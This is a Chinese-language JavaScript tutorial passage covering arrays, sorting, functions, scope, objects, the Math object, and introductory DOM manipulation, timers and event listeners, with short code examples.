

观察上图可以知道数据单元【小明】对应的索引值为【0】，数据单元【小红】对应的索引值为【2】。

```javascript
let classes = ['小明', '小刚', '小红', '小丽', '小米']

// 1. 访问数组，语法格式为：变量名[索引值]
document.write(classes[0]) // 结果为：小明
document.write(classes[1]) // 结果为：小刚
document.write(classes[4]) // 结果为：小米

// 2. 通过索引值还可以为数组重新赋值
document.write(classes[3]) // 结果为：小丽
classes[3] = '小小丽'
document.write(classes[3]) // 结果为：小小丽
```

#### 5.2.3 数组单元值类型

数组作为数据的集合，它的单元值可以是任意数据类型。

```javascript
// a) 数组单元值的类型为字符类型
let list = ['HTML', 'CSS', 'JavaScript']
// b) 数组单元值的类型为数值类型
let scores = [78, 84, 70, 62, 75]
// c) 混合多种类型
let mixin = [true, 1, false, 'hello']
```

#### 5.2.4 数组长度属性

重申一次，数组在 JavaScript 中并不是新的数据类型，它属于对象类型。

```javascript
let arr = ['html', 'css', 'javascript']
// 数组对应着一个 length 属性，它的含义是获取数组的长度
console.log(arr.length) // 3
```

### 5.3 操作数组

数组作为对象数据类型，不但有 `length` 属性可以使用，还提供了许多方法：

* `push` 动态向数组的尾部添加一个单元
* `unshift` 动态向数组头部添加一个单元
* `pop` 删除最后一个单元
* `shift` 删除第一个单元
* `splice` 动态删除任意单元

使用以上方法时，都是直接在原数组上进行操作，即成功调用任何一个方法，原数组都跟着发生相应的改变。并且在添加或删除单元时 `length` 并不会发生错乱。

```javascript
let arr = ['html', 'css', 'javascript']

// 1. push 动态向数组的尾部添加一个单元
arr.push('Nodejs')
arr.push('Vue')

// 2. unshift 动态向数组头部添加一个单元
arr.unshift('VS Code')
console.log(arr)

// 3. splice 动态删除任意单元
arr.splice(2, 1) // 从索引值为 2 的位置开始删除 1 个单元
console.log(arr)

// 4. pop 删除最后一个单元
arr.pop()

// 5. shift 删除第一个单元
arr.shift()
console.log(arr)
```

#### 5.3.1 splice 添加元素

`splice(起始位置, 删除个数, 添加的数组元素)` 可以在指定位置添加元素，同样会改变原始数组。

```javascript
let arr = ['red', 'green', 'blue']
arr.splice(1, 1) // 删除 green 元素
console.log(arr) // ['red', 'blue']

// 在索引号是 1 的位置添加 pink  hotpink
arr.splice(1, 0, 'pink', 'hotpink')
console.log(arr) // ['red', 'pink', 'hotpink', 'blue']
```

### 5.4 数组排序

#### 5.4.1 sort 方法

`sort` 方法用于对数组单元值排序，传入比较函数可以控制升序和降序：

```javascript
let arr = [4, 2, 5, 1, 3]

// 1. 升序排列的写法
arr.sort(function (a, b) {
  return a - b
})
console.log(arr) // [1, 2, 3, 4, 5]

// 2. 降序排列的写法
arr.sort(function (a, b) {
  return b - a
})
console.log(arr) // [5, 4, 3, 2, 1]
```

> 注意
>
> 不传比较函数时，`sort` 默认按照字符串的编码顺序排序，数字会得到 `[1, 10, 2]` 这样不符合预期的结果。

#### 5.4.2 冒泡排序

冒泡排序是一种简单的排序算法，它重复地走访要排序的数列，一次比较两个元素，如果顺序错误就把它们交换过来，直到没有再需要交换为止。越小的元素会经由交换慢慢“浮”到数列的顶端，所以叫冒泡排序。

```javascript
let arr = [2, 4, 3, 5, 1]

// 外层循环：控制比较的轮数，一共需要 length - 1 轮
for (let i = 0; i < arr.length - 1; i++) {
  // 内层循环：控制每一轮比较的次数
  for (let j = 0; j < arr.length - i - 1; j++) {
    // 前一个单元值大于后一个单元值才交换
    if (arr[j] > arr[j + 1]) {
      // 借助临时变量交换两个单元值
      let temp = arr[j]
      arr[j] = arr[j + 1]
      arr[j + 1] = temp
    }
  }
}

console.log(arr) // [1, 2, 3, 4, 5]
```

> 经验
>
> 外层循环控制轮数，内层循环控制每一轮的比较次数，每一轮结束后最大的单元值都会被排到后面。

<a id="ch06"></a>
## 6. 函数

> 目标：理解函数的封装特性，掌握函数的语法规则。

### 6.1 声明和调用

函数可以把具有相同或相似逻辑的代码“包裹”起来，通过函数调用执行这些被“包裹”的代码逻辑，这么做的优势是有利于精简代码方便复用。

#### 6.1.1 声明（定义）

声明（定义）一个完整函数包括关键字、函数名、形式参数、函数体、返回值 5 个部分。



#### 6.1.2 调用

声明（定义）的函数必须调用才会真正被执行，使用 `()` 调用函数。

```javascript
// 声明（定义）了最简单的函数，既没有形式参数，也没有返回值
function sayHi() {
  console.log('嗨~')
}
// 函数调用，这些函数体内的代码逻辑会被执行
// 函数名()
sayHi()
// 可以重复被调用，多少次都可以
sayHi()
```

> 提示
>
> 函数名的命名规则与变量是一致的，并且尽量保证函数名的语义。

函数命名规范：

* 和变量命名规则基本一致
* 尽量使用小驼峰式命名法，如 `getUserName`、`isLogin`
* 前缀最好是动词，如 `get`、`set`、`is`、`has`、`can`、`handle`，让人一眼看出函数做什么

小案例：小星星

```javascript
// 函数声明
function sayHi() {
  document.write(`*<br>`)
  document.write(`**<br>`)
  document.write(`***<br>`)
  document.write(`****<br>`)
}
// 函数调用
sayHi()
sayHi()
sayHi()
```

### 6.2 参数

通过向函数传递参数，可以让函数更加灵活多变，参数可以理解成是一个变量。

```javascript
// 这个函数似乎没有什么价值，除非能够向不同的人打招呼
// 这就需要借助参数来实现了
function sayHi(name) {
  // 参数 name 可以被理解成是一个变量
  console.log(name)
  console.log('嗨~' + name)
}

// 调用 sayHi 函数，括号中多了 '小明'
// 这时相当于为参数 name 赋值了
sayHi('小明') // 结果为 小明
sayHi('小红') // 结果为 小红
```

总结：

* 声明（定义）函数时的形参没有数量限制，当有多个形参时使用 `,` 分隔
* 调用函数传递的实参要与形参的顺序一致

#### 6.2.1 形参和实参

* 形参：声明函数时写在函数名右边小括号里的叫形参（形式上的参数）
* 实参：调用函数时写在函数名右边小括号里的叫实参（实际上的参数）

形参可以理解为是在这个函数内声明的变量（比如 `num1 = 10`），实参可以理解为是给这个变量赋值。开发中尽量保持形参和实参个数一致。

> 注意
>
> 实参多余形参时，多余的实参不参与运算；实参少于形参时，没有收到值的形参为 `undefined`，参与运算会得到 `NaN`。

```javascript
// 声明（定义）一个计算任意两数字和的函数
// 形参 x 和 y 分别表示任意两个数字，它们是两个变量
function count(x, y) {
  console.log(x + y)
}
// 调用函数，传入两个具体的数字作为实参
// 此时 10 赋值给了形参 x，5 赋值给了形参 y
count(10, 5) // 结果为 15
```

### 6.3 返回值

函数的本质是封装（包裹），函数体内的逻辑执行完毕后，函数外部如何获得函数内部的执行结果呢？要想获得函数内部逻辑的执行结果，需要通过 `return` 这个关键字，将内部执行结果传递到函数外部，这个被传递到外部的结果就是返回值。

```javascript
// 定义求和函数
function count(a, b) {
  let s = a + b
  // s 即为 a + b 的结果
  // 通过 return 将 s 传递到外部
  return s
}

// 调用函数，如果一个函数有返回值
// 那么可将这个返回值赋值给外部的任意变量
let total = count(5, 12)
```

总结：

* 在函数体中使用 `return` 关键字能将内部的执行结果交给函数外部使用
* 函数内部只能出现 1 次 `return`，并且 `return` 下一行代码不会再被执行，所以 `return` 后面的数据不要换行写
* `return` 会立即结束当前函数
* 函数可以没有 `return`，这种情况默认返回值为 `undefined`

### 6.4 作用域

通常来说，一段程序代码中所用到的名字并不总是有效和可用的，而限定这个名字的可用性的代码范围就是这个名字的作用域。作用域的使用提高了程序逻辑的局部性，增强了程序的可靠性，减少了名字冲突。

#### 6.4.1 全局作用域

作用于所有代码执行的环境（整个 script 标签内部）或者一个独立的 js 文件。处于全局作用域内的变量，称为全局变量。

#### 6.4.2 局部作用域

作用于函数内的代码环境，就是局部作用域。因为跟函数有关系，所以也称为函数作用域。处于局部作用域内的变量称为局部变量。

> 注意
>
> * 如果函数内部，变量没有声明，直接赋值，也当全局变量看，但是强烈不推荐
> * 有一种情况，函数内部的形参可以看作是局部变量

### 6.5 匿名函数

函数可以分为具名函数和匿名函数。匿名函数是没有名字的函数，无法直接使用。

#### 6.5.1 函数表达式

```javascript
// 声明
let fn = function () {
  console.log('函数表达式')
}
// 调用
fn()
```

#### 6.5.2 立即执行函数

```javascript
(function () { xxx })();
(function () { xxxx }());
```

> 提示
>
> * 无需调用，立即执行，其实本质已经调用了
> * 多个立即执行函数之间用分号隔开

<a id="ch07"></a>
## 7. 对象与内置对象

> 目标：理解什么是对象，掌握定义对象的语法，掌握数学对象的使用。

### 7.1 对象

对象是 JavaScript 数据类型的一种，之前已经学习了数值类型、字符串类型、布尔类型、undefined。对象数据类型可以被理解成是一种数据集合，它由属性和方法两部分构成。

#### 7.1.1 语法

声明一个对象类型的变量与之前声明一个数值或字符串类型的变量没有本质上的区别。

```javascript
// 声明字符串类型变量
let str = 'hello world!'

// 声明数值类型变量
let num = 199

// 声明对象类型变量，使用一对花括号
// user 便是一个对象了，目前它是一个空对象
let user = {}
```

#### 7.1.2 属性和访问

数据描述性的信息称为属性，如人的姓名、身高、年龄、性别等，一般是名词性的。

* 属性都是成对出现的，包括属性名和值，它们之间使用英文 `:` 分隔
* 多个属性之间使用英文 `,` 分隔
* 属性就是依附在对象上的变量
* 属性名可以使用 `""` 或 `''`，一般情况下省略，除非名称遇到特殊符号如空格、中横线等

```javascript
// person 是一个对象，它包含了若干属性
// 属性都是成对出现的，属性名和值之间使用英文 : 分隔
let person = {
  name: '小明', // 描述人的姓名
  age: 18, // 描述人的年龄
  stature: 185, // 描述人的身高
  gender: '男', // 描述人的性别
}

// 访问人的名字
console.log(person.name) // 结果为 小明
// 访问人性别
console.log(person.gender) // 结果为 男
// 访问人的身高
console.log(person['stature']) // 结果为 185
// 或者
console.log(person.stature) // 结果同为 185
```

也可以动态为对象添加属性，动态添加与直接定义是一样的，只是语法上更灵活。

```javascript
// 声明一个空的对象（没有任何属性）
let user = {}
// 动态追加属性
user.name = '小明'
user['age'] = 18
```

属性的修改与删除：

* **改**：`对象名.属性 = 新值`，属性已存在就是修改
* **增**：`对象名.新属性 = 值`，属性不存在就是新增
* **删**：`delete 对象名.属性`

```javascript
let person = { uname: 'pink老师', age: 18, gender: '女' }

person.gender = '男' // 改：已有属性，修改值
person.height = 180 // 增：没有的属性，新增
delete person.age // 删：删除 age 属性
console.log(person) // { uname: 'pink老师', gender: '男', height: 180 }
```

**属性名带特殊符号时只能使用中括号**

```javascript
let person2 = {
  'user-name': 'pink老师',
  age: 18
}

console.log(person2['user-name']) // 'pink老师'
console.log(person2.user-name) // NaN，点语法把 user-name 当成了减法运算
```

> 提示
>
> `对象['属性']` 的中括号里如果**不加引号**，会被当成变量解析：`let k = 'age'; obj[k]` 取的是 `obj.age`。需要动态解析变量时用中括号，其余情况直接用点语法。

#### 7.1.3 方法和调用

数据行为性的信息称为方法，如跑步、唱歌等，一般是动词性的，其本质是函数。

* 方法是由方法名和函数两部分构成，它们之间使用 `:` 分隔
* 多个属性之间使用英文 `,` 分隔
* 方法是依附在对象中的函数
* 方法名可以使用 `""` 或 `''`，一般情况下省略，除非名称遇到特殊符号如空格、中横线等

```javascript
// 方法是依附在对象上的函数
let person = {
  name: '小红',
  age: 18,
  // 方法是由方法名和函数两部分构成，它们之间使用 : 分隔
  singing: function () {
    console.log('两只老虎，两只老虎，跑的快，跑的快...')
  },
  run: function () {
    console.log('我跑的非常快...')
  }
}

// 调用对象中 singing 方法
person.singing()
// 调用对象中的 run 方法
person.run()
```

也可以动态为对象添加方法，动态添加与直接定义是一样的，只是语法上更灵活。

```javascript
// 声明一个空的对象（没有任何属性，也没有任何方法）
let user = {}
user.name = '小明'
user['age'] = 18

// 动态添加方法
user.move = function () {
  console.log('移动一点距离...')
}
```

> 注意
>
> 无论是属性或是方法，同一个对象中出现名称一样的，后面的会覆盖前面的。

#### 7.1.4 null

`null` 也是 JavaScript 中数据类型的一种，通常只用它来表示不存在的对象。使用 `typeof` 检测它的类型时，结果为 `object`。

#### 7.1.5 遍历对象

```javascript
let obj = {
  uname: 'pink'
}
for (let k in obj) {
  // k 属性名  字符串  带引号    obj.'uname'     k ===  'uname'
  // obj[k]  属性值    obj['uname']   obj[k]
}
```

> 注意
>
> `for in` 不提倡遍历数组，因为 `k` 是字符串。

`for...in` 与 `for...of` 的区别：

| 循环 | 遍历出来的内容 | 适用对象 |
| --- | --- | --- |
| `for...in` | **键名**（字符串），会沿原型链找到可枚举的属性 | 对象（不建议用来遍历数组） |
| `for...of` | **键值**，底层调用 `Symbol.iterator` 迭代器 | 数组、字符串、`Set`、`Map`、`NodeList` 等实现了迭代器协议的对象 |

```javascript
const arr = [10, 20]

for (const k in arr) {
  console.log(k) // '0' '1'，是字符串形式的下标
}

for (const v of arr) {
  console.log(v) // 10 20，是值
}
```

> 提示
>
> 普通对象没有实现迭代器协议，直接 `for...of` 会报错，需要配合 `Object.keys/values/entries` 使用（见 19.3.1）；`for...in` 会把原型链上的可枚举属性也遍历出来，只想要自有属性时用 `Object.hasOwn` 过滤。

### 7.2 内置对象

回想一下我们曾经使用过的 `console.log`，`console` 其实就是 JavaScript 中内置的对象，该对象中存在一个方法叫 `log`，然后调用 `log` 这个方法，即 `console.log()`。

#### 7.2.1 Math 数学对象

`Math` 是 JavaScript 中内置的对象，称为数学对象，这个对象下既包含了属性，也包含了许多的方法。

属性：

* `Math.PI`，获取圆周率

```javascript
console.log(Math.PI)
```

方法：

* `Math.random`，生成 0 到 1 间的随机数

```javascript
// 0 ~ 1 之间的随机数，包含 0 不包含 1
Math.random()
```

* `Math.ceil`，数字向上取整

```javascript
// 舍弃小数部分，整数部分加 1
Math.ceil(3.4)
```

* `Math.floor`，数字向下取整

```javascript
// 舍弃小数部分，整数部分不变
Math.floor(4.68)
```

* `Math.round`，四舍五入取整

```javascript
// 取整，四舍五入原则
Math.round(5.46539)
```

* `Math.max`，在一组数中找出最大的

```javascript
Math.max(10, 21, 7, 24, 13)
```

* `Math.min`，在一组数中找出最小的

```javascript
Math.min(24, 18, 6, 19, 21)
```

* `Math.pow`，幂方法

```javascript
// 求某个数的多少次方
Math.pow(4, 2) // 求 4 的 2 次方
```

* `Math.sqrt`，平方根

```javascript
Math.sqrt(16)
```

> 经验
>
> 数学对象提供了比较多的方法，这里不要求强记，通过演示数学对象的使用，加深对对象的理解。


---

# 第二部分 · Web APIs

<a id="ch08"></a>
## 8. 初识 DOM

> 目标：了解 DOM 的结构并掌握其基本的操作，体验 DOM 在开发中的作用。

### 8.1 ECMAScript 与 Web APIs

严格意义上讲，我们在 JavaScript 阶段学习的知识绝大部分属于 ECMAScript 的知识体系，ECMAScript 简称 ES，它提供了一套语言标准规范，如变量、数据类型、表达式、语句、函数等语法规则都是由 ECMAScript 规定的。浏览器将 ECMAScript 大部分的规范加以实现，并且在此基础上又扩展一些实用的功能，这些被扩展出来的内容我们称为 Web APIs。



ECMAScript 运行在浏览器中然后再结合 Web APIs 才是真正的 JavaScript，Web APIs 的核心是 DOM 和 BOM。

> 提示
>
> ECMAScript 规范在不断的更新中，存在多个不同的版本，早期的版本号采用数字顺序编号如 ECMAScript3、ECMAScript5，后来由于更新速度较快便采用年份作为版本号，如 ECMAScript2017、ECMAScript2018 这种格式，ECMAScript6 是 2015 年发布的，常叫做 ECMAScript2015。

### 8.2 DOM 介绍

DOM（Document Object Model）是将整个 HTML 文档的每一个标签元素视为一个对象，这个对象下包含了许多的属性和方法，通过操作这些属性或者调用这些方法实现对 HTML 的动态更新，为实现网页特效以及用户交互提供技术支撑。

简言之 DOM 是用来动态修改 HTML 的，其目的是开发网页特效及用户交互。



上述的例子中当用户分别点击【开始】或【结束】按钮后，通过右侧调试窗口可以观察到 html 标签的内容在不断的发生改变，这便是通过 DOM 实现的。

#### 8.2.1 DOM 树

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>标题</title>
</head>
<body>
  文本
  <a href="">链接名</a>
  <div id="" class="">文本</div>
</body>
</html>
```

将 HTML 文档以树状结构直观的表现出来，我们称之为文档树或 DOM 树，**文档树直观的体现了标签与标签之间的关系。**



#### 8.2.2 DOM 节点

节点是文档树的组成部分，**每一个节点都是一个 DOM 对象**，主要分为元素节点、属性节点、文本节点等。

* 【元素节点】其实就是 HTML 标签，如上图中 `head`、`div`、`body` 等都属于元素节点
* 【属性节点】是指 HTML 标签中的属性，如上图中 `a` 标签的 `href` 属性、`div` 标签的 `class` 属性
* 【文本节点】是指 HTML 标签的文字内容，如 `title` 标签中的文字
* 【根节点】特指 `html` 标签

#### 8.2.3 document

`document` 是 JavaScript 内置的专门用于 DOM 的对象，该对象包含了若干的属性和方法，`document` 是学习 DOM 的核心。

```html
<script>
  // document 是内置的对象
  // 1. 通过 document 获取根节点
  console.log(document.documentElement) // 对应 html 标签

  // 2. 通过 document 获取 body 节点
  console.log(document.body) // 对应 body 标签

  // 3. 通过 document.write 方法向网页输出内容
  document.write('Hello World!')
</script>
```

### 8.3 获取 DOM 对象

* `querySelector`：满足条件的第一个元素
* `querySelectorAll`：满足条件的元素集合，返回伪数组
* 了解其他方式
  * `getElementById`
  * `getElementsByTagName`

```html
<body>
  <h3>查找元素类型节点</h3>
  <p>从整个 DOM 树中查找 DOM 节点是学习 DOM 的第一个步骤。</p>
  <ul>
    <li>元素</li>
    <li>元素</li>
    <li>元素</li>
    <li>元素</li>
  </ul>
  <script>
    const p = document.querySelector('p') // 获取第一个 p 元素
    const lis = document.querySelectorAll('li') // 获取所有的 li 元素
  </script>
</body>
```

总结：

* `document.getElementById` 专门获取元素类型节点，根据标签的 `id` 属性查找
* 任意 DOM 对象都包含 `nodeType` 属性，用来检测节点类型

### 8.4 操作元素内容

通过修改 DOM 的文本内容，动态改变网页的内容。

* `innerText` 将文本内容添加 / 更新到任意标签位置，**文本中包含的标签不会被解析**
* `innerHTML` 将文本内容添加 / 更新到任意标签位置，**文本中包含的标签会被解析**

```javascript
// innerText 将文本内容添加 / 更新到任意标签位置
const intro = document.querySelector('.intro')
intro.innerText = '嗨~ 我叫李雷！'
intro.innerText = '<h4>嗨~ 我叫李雷！</h4>'

// innerHTML 将文本内容添加 / 更新到任意标签位置
intro.innerHTML = '嗨~ 我叫韩梅梅！'
intro.innerHTML = '<h4>嗨~ 我叫韩梅梅！</h4>'
```

> 经验
>
> 如果文本内容中包含 html 标签时推荐使用 `innerHTML`，否则建议使用 `innerText` 属性。

### 8.5 操作元素属性

有 3 种方式可以实现对属性的修改。

#### 8.5.1 常用属性修改

直接通过属性名修改，最简洁的语法。

```javascript
// 1. 获取 img 对应的 DOM 元素
const pic = document.querySelector('.pic')
// 2. 修改属性
pic.src = './images/lion.webp'
pic.width = 400
pic.alt = '图片不见了...'
```

#### 8.5.2 控制样式属性

通过修改行内样式 `style` 属性，实现对样式的动态修改。

通过元素节点获得的 `style` 属性本身的数据类型也是对象，如 `box.style.color`、`box.style.width` 分别用来获取元素节点 CSS 样式的 `color` 和 `width` 的值。

```html
<body>
  <div class="box">随便一些文本内容</div>
  <script>
    // 获取 DOM 节点
    const box = document.querySelector('.box')
    box.style.color = 'red'
    box.style.width = '300px'
    // css 属性的 - 连接符与 JavaScript 的减运算符冲突，所以要改成驼峰法
    box.style.backgroundColor = 'pink'
  </script>
</body>
```

任何标签都有 `style` 属性，通过 `style` 属性可以动态更改网页标签的样式，如遇到 css 属性中包含字符 `-` 时，要将 `-` 去掉并将其后面的字母改成大写，如 `background-color` 要写成 `box.style.backgroundColor`。

**操作类名（className）操作 CSS**

如果修改的样式比较多，直接通过 `style` 属性修改比较繁琐，我们可以借助于 css 类名的形式。

```html
<style>
  .pink {
    background: pink;
    color: hotpink;
  }
</style>
<body>
  <div class="box">随便一些文本内容</div>
  <script>
    const box = document.querySelector('.box')
    box.className = 'pink'
  </script>
</body>
```

> 注意
>
> * 由于 `class` 是关键字，所以使用 `className` 去代替
> * `className` 是使用新值换旧值，如果需要添加一个类，需要保留之前的类名

**通过 classList 操作类控制 CSS**

为了解决 `className` 容易覆盖以前的类名的问题，我们可以通过 `classList` 方式追加和删除类名。

```html
<style>
  div {
    width: 200px;
    height: 200px;
    background-color: pink;
  }

  .active {
    width: 300px;
    height: 300px;
    background-color: hotpink;
    margin-left: 100px;
  }
</style>
<body>
  <div class="one"></div>
  <script>
    // 1. 获取元素
    let box = document.querySelector('div')
    // add 是个方法，添加 / 追加
    box.classList.add('active')
    // remove() 移除类
    box.classList.remove('one')
    // toggle 切换类
    box.classList.toggle('one')
  </script>
</body>
```

#### 8.5.3 操作表单元素属性

表单很多情况也需要修改属性，比如点击眼睛可以看到密码，本质是把表单类型转换为文本框。正常的有属性有取值的跟其他的标签属性没有任何区别：

* 获取：`DOM对象.属性名`
* 设置：`DOM对象.属性名 = 新值`

```html
<body>
  <input type="text" value="请输入">
  <button disabled>按钮</button>
  <input type="checkbox" class="agree">
  <script>
    // 1. 获取元素
    let input = document.querySelector('input')
    // 2. 取值或者设置值，得到 input 里面的值可以用 value
    input.value = '小米手机'
    input.type = 'password'

    // 2. 启用按钮
    let btn = document.querySelector('button')
    // disabled 不可用 = false，这样可以让按钮启用
    btn.disabled = false
    // 3. 勾选复选框
    let checkbox = document.querySelector('.agree')
    checkbox.checked = false
  </script>
</body>
```

#### 8.5.4 自定义属性

* 标准属性：标签天生自带的属性，比如 `class`、`id`、`title` 等，可以直接使用点语法操作，比如 `disabled`、`checked`、`selected`
* 自定义属性：在 html5 中推出了专门的 `data-` 自定义属性
  * 在标签上一律以 `data-` 开头
  * 在 DOM 对象上一律以 `dataset` 对象方式获取

```html
<body>
  <div data-id="1"> 自定义属性 </div>
  <script>
    // 1. 获取元素
    let div = document.querySelector('div')
    // 2. 获取自定义属性值
    console.log(div.dataset.id)
  </script>
</body>
```

### 8.6 间歇函数

`setInterval` 是 JavaScript 中内置的函数，它的作用是间隔固定的时间自动重复执行另一个函数，也叫定时器函数。

```javascript
// 1. 定义一个普通函数
function repeat() {
  console.log('不知疲倦的执行下去....')
}

// 2. 使用 setInterval 调用 repeat 函数
// 间隔 1000 毫秒，重复调用 repeat
setInterval(repeat, 1000)
```

`setInterval` 的返回值是一个正整数数字，表示定时器的编号，使用 `clearInterval(timerId)` 可以清除对应的定时器。

```javascript
function fn() {
  console.log('一秒执行一次')
}

// 1. 开启定时器，把返回的编号存起来
let n = setInterval(fn, 1000)

// 2. 清除定时器
clearInterval(n)
```

> 注意
>
> * 传函数名时不要加小括号，加了小括号表示函数立即调用
> * 定时器一旦开启就会不断执行，不需要时必须手动清除

<a id="ch09"></a>
## 9. 事件基础

> 目标：学会通过为 DOM 注册事件来实现可交互的网页特效，能够判断函数运行的环境并确定 this 所指代的对象。

### 9.1 事件

事件是编程语言中的术语，它是用来描述程序的行为或状态的，**一旦行为或状态发生改变，便立即调用一个函数。**

例如：用户使用【鼠标点击】网页中的一个按钮、用户使用【鼠标拖拽】网页中的一张图片。

#### 9.1.1 事件监听

结合 DOM 使用事件时，需要为 DOM 对象添加事件监听，等待事件发生（触发）时，便立即调用一个函数。`addEventListener` 是 DOM 对象专门用来添加事件监听的方法，它的两个参数分别为【事件类型】和【事件回调】。

```html
<body>
  <h3>事件监听</h3>
  <p id="text">为 DOM 元素添加事件监听，等待事件发生，便立即执行一个函数。</p>
  <button id="btn">点击改变文字颜色</button>
  <script>
    // 1. 获取 button 对应的 DOM 对象
    const btn = document.querySelector('#btn')

    // 2. 添加事件监听
    btn.addEventListener('click', function () {
      // 改变 p 标签的文字颜色
      let text = document.getElementById('text')
      text.style.color = 'red'
    })

    // 3. 只要用户点击了按钮，事件便触发了！！！
  </script>
</body>
```

完成事件监听分成 3 个步骤：

* 获取 DOM 元素
* 通过 `addEventListener` 方法为 DOM 节点添加事件监听
* 等待事件触发，如用户点击了某个按钮时便会触发 `click` 事件类型
* 事件触发后，相对应的回调函数会被执行

> 经验
>
> 所谓的事件无非就是找个机会（事件触发）调用一个函数（回调函数）。

#### 9.1.2 事件处理程序

`addEventListener` 的第 2 个参数是函数，这个函数会在事件被触发时立即被调用，在这个函数中可以编写任意逻辑的代码，如改变 DOM 文本颜色、文本内容等。

```javascript
btn.addEventListener('dblclick', function () {
  const text = document.querySelector('.text')
  // 改变 p 标签的文字颜色
  text.style.color = 'red'
  // 改变 p 标签的文本内容大小
  text.style.fontSize = '20px'
})
```

结论：【事件处理程序】决定了事件触发后应该执行的逻辑。

#### 9.1.3 事件绑定的三种方式

| 方式 | 写法 | 特点 |
| --- | --- | --- |
| HTML 内联事件属性 | `<button onclick="handleClick()">` | 结构、行为混在一起，不推荐 |
| DOM 属性事件处理器 | `btn.onclick = function () {}` | 简单；但同名事件只能绑一个，后绑的会覆盖先绑的 |
| `addEventListener()` | `btn.addEventListener('click', fn)` | 可以绑多个，可指定捕获阶段，可解绑，**推荐** |

```html
<button id="btn">点击我</button>

<script>
  const btn = document.querySelector('#btn')

  // 1. DOM 属性方式
  btn.onclick = function () {
    console.log('第一次绑定')
  }
  btn.onclick = function () {
    console.log('第二次绑定') // 只执行这一句，前一个被覆盖
  }

  // 2. addEventListener 方式：两个都会执行
  btn.addEventListener('click', function () {
    console.log('监听 1')
  })
  btn.addEventListener('click', function () {
    console.log('监听 2')
  })
</script>
```

> 提示
>
> 用 `addEventListener` 绑定的多个回调按注册顺序执行；解绑时 `removeEventListener` 必须传入**同一个函数引用**，所以回调一般先命名再传入（见 10.1.3）。

DOM 事件规范的发展（L 即 level）：

* **DOM L0**：最早的写法，`元素.onclick = function () {}`，后绑的会覆盖先绑的，只有冒泡阶段
* **DOM L1**：1998 年 10 月 1 日成为 W3C 推荐标准
